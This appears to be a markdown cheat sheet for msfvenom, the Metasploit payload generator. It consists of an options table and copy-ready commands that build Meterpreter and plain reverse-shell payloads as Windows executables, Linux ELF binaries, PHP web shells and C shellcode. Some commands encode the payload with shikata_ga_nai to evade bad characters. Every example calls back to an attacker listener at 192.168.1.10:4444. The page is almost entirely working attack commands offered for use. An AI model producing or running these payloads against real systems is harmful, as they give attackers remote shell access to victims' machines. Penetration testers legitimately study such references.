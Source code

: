 ```yaml
---
## 📌 Basic Syntax

---
```

## 🧰 Common Options

| Option       | Description                                                 |
| ------------ | ----------------------------------------------------------- |
| `-p`         | Specify the payload (e.g., windows/meterpreter/reverse_tcp) |
| `LHOST`      | Local host IP (attacker's IP)                               |
| `LPORT`      | Local port to listen on                                     |
| `-f`         | Output format (e.g., exe, elf, raw, c, python)              |
| `-o`         | Output file                                                 |
| `-e`         | Encoder (e.g., x86/shikata_ga_nai)                          |
| `-b`         | Bad characters to avoid (e.g., `\x00\x0a`)                  |
| `-a`         | Architecture (e.g., x86, x64)                               |
| `--platform` | Target OS (e.g., Windows, Linux)                            |
| `-i`         | Number of encoding iterations                               |

---

## 🚀 Payload Examples

### 1. **Windows Reverse Shell**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
```

## Linux Reverse Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o shell.elf
```

## Encoded Payload (Avoiding Bad Chars)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 3 -b "\x00\x0a" -f exe -o encoded_shell.exe
```

## Payload for Web Delivery (PHP)
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php
```

## Output Formats

|Format|Description|
|---|---|
|exe|Windows Executable|
|elf|Linux Executable|
|asp|ASP Script|
|aspx|ASP.NET Script|
|php|PHP Script|
|raw|Raw Shellcode|
|c|C Source Code|
|python|Python Script|
|js|JavaScript|

## Shellcode Generation (C Example)

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

## List Available Payloads
```
msfvenom -h
```












